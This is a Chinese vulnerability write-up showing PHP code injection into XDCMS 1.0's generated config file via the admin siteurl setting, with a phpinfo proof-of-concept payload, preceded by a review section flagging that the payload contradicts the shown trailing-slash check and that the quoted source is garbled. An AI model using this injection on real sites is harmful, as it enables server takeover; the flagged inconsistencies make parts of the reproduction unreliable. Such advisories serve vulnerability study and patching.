


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：backendconfigpermission,writablesystem/xdcms.inc.php; URLmustend slash unlessshowmsgdoesnotexit

- **结论使用边界（1）**：源码明确siteurl尾字符必须/，提供hello...?&gt;载荷不以/结尾，文本复现与前置校验矛盾。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：生成代码把换行写成字面n而不是\n，源码抓取污染。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：只有后端写配置应说明管理员角色，不是前台漏洞；缺SafeRequest/参数来源完整链。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（4）**：配置文件可能破坏站点需说明副作用，缺修复/原始源。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XDCMS 1.0 后台配置文件getshell

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

    if($tag=='config'){
        //判断url是否以/结尾
        $urlnum=strlen($info['siteurl'])-1;
        if(substr($info['siteurl'],$urlnum,1)!="/"){
            showmsg(C("update_url_error"),"-1");
        }//end

        $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
        $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
        creat_inc($cms,$cmsurl);

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

    <?php
     define('CMS_URL','http://127.0.0.5/');
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里我们可以构造siteurl：

    hello');?><?php phpinfo();?>

点击保存后，我们去查看一下该配置文件：

    <?php
     define('CMS_URL','hello');?><?php phpinfo();?>';
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

